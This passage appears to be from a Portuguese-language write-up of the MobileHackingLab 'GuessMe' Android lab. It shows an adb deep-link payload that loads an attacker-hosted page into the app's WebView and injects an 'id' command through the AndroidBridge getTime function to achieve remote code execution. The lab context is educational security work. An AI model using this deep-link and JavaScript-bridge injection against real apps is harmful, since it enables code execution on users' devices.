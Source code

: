 <img src="/assets/img/MHL_guessme_4.png" width="600" height="600"/>
</p>
<br>
O payload utilizado: 

```sh
adb shell am start -a android.intent.category.BROWSABLE \
-n com.mobilehackinglab.guessme/.WebviewActivity \
-d "mhl://mobilehackinglab/?url=http://192.168.0.9/search?Time=\'id\'%26q=mobilehackinglab.com"
```
Uma vez que o aplicativo carregou minha página que executa javascript e passa o parâmetro **Time**
dentro da função getTime que faz parte da AndroidBridge que é nossa interface com o Javascript.
O RCE acontece!! No final bastando apenas adicionar o host "mobilehackinglab.com" para ter o deep link válido.


## Bônus

[Parte 2 continuação...](../../../2024/09/11/GuessMe2.html)